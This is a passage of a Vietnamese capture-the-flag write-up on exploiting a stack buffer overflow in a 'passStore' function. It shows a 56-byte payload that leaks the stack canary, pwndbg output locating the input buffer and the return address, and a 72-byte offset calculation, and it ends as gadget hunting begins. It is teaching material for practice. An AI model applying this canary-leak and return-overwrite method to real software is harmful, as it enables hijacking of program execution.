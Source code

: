 Oke vậy thì chốt lại là với ***payload = b"a"*56*** ta sẽ leak được canary. sau khi leak được rồi thì với payload thứ 2, ta sẽ điều khiển luồng thực thi của chương trình. tuy nhiên có 2 thứ: 1 là ret cách str ta nhập vào mấy bytes, 2 là ret đi đâu.

```shell
► 0x401229 <passStore+133>    call   read@plt                      <read@plt>
        fd: 0x0 (/dev/pts/0)
        buf: 0x7fffffffdfb0 ◂— 0x7fff0a333231
        nbytes: 0x300
```

string ta nhập sẽ được lưu ở buf :**0x7fffffffdfb0**

```shell
──────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────
 ► 0x401244       <passStore+160>                 ret                                  <0x40127f; main+58>
    ↓
   0x40127f       <main+58>                       mov    eax, 0
   0x401284       <main+63>                       pop    rbp
   0x401285       <main+64>                       ret
    ↓
   0x7ffff7db6d90 <__libc_start_call_main+128>    mov    edi, eax
   0x7ffff7db6d92 <__libc_start_call_main+130>    call   exit                <exit>

   0x7ffff7db6d97 <__libc_start_call_main+135>    call   __nptl_deallocate_tsd                <__nptl_deallocate_tsd>

   0x7ffff7db6d9c <__libc_start_call_main+140>    lock dec dword ptr [rip + 0x1ef505]  <__nptl_nthreads>
   0x7ffff7db6da3 <__libc_start_call_main+147>    sete   al
   0x7ffff7db6da6 <__libc_start_call_main+150>    test   al, al
   0x7ffff7db6da8 <__libc_start_call_main+152>    jne    __libc_start_call_main+168                <__libc_start_call_main+168>
───────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffdff8 —▸ 0x40127f (main+58) ◂— mov eax, 0
01:0008│ rbp 0x7fffffffe000 ◂— 0x1
02:0010│     0x7fffffffe008 —▸ 0x7ffff7db6d90 (__libc_start_call_main+128) ◂— mov edi, eax
03:0018│     0x7fffffffe010 ◂— 0x0

```

Còn ret: **0x7fffffffdff8**

```python
>>> 0x7fffffffdff8 - 0x7fffffffdfb0
72

```

Ta thấy là mới chỉ có mỗi canary, còn phải viết ovwr về đâu, mình thử vào xem các gadget có gì okela k:

